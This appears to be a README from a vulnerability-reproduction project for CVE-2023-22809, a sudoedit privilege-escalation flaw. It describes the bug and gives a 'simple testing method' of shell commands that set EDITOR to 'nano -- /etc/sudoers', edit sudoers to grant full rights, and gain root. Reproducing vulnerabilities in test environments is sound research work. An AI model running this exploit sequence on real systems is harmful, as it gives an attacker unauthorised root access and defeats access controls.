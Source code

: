 # CVE-2023-22809

### Description
sudoedit in Sudo before 1.9.12p2 mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process which can lead to privilege escalation.
The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value.

### Command to run
```shell
python decret.py --number 2023-22809 --release bullseye --directory sudoedit-2023 --selenium
```

### Simple testing method

```shell
echo "toto ALL=(ALL:ALL) sudoedit /etc/hosts" >> /etc/sudoers
su toto
cd
id
sudoedit /etc/hosts # Operation accepted, because added in /etc/sudoers
sudo nano /etc/passwd # Operation denied
sudoedit /etc/sudoers # Operation denied
EDITOR="nano -- /etc/sudoers" sudoedit /etc/hosts # Operation accepted
# change to toto ALL=(ALL:ALL) ALL
sudo nano /etc/passwd # Operation accepted
```
You can edit the file and then get root access.